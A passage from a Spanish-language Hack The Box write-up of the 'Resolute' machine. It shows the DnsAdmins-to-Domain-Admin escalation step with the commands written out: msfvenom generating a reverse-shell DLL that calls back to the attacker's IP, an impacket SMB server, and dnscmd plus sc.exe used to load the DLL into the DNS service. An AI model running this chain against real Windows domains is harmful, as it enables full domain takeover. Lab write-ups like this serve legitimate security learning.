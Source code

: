 buscando en internet encontramos un articulo donde vemos que podemos escalar de DnsAdmins to DomainAdmin

[Windows Privilege Escalation: DnsAdmins to DomainAdmin - Hacking Articles](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)

asi que seguimos los pasos y generamos nuestra dll maliciosa con msfvenom

```bash
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.104 LPORT=443 -f dll -o rev.dll
```

![Untitled](/assets/images/2022-02-05-writeup-maquina-htb-resolute/Untitled%2017.png)

creamos un servidor smb con python impacket

```bash
❯ impacket-smbserver shared . -smb2support
```

![Untitled](/assets/images/2022-02-05-writeup-maquina-htb-resolute/Untitled%2018.png)

dejamos con netcat el puerto 443 en escucha y  ejecutamos estos comandos en la maquina victima 

```bash
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.104\shared\rev.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\Resolute stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\Resolute start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
```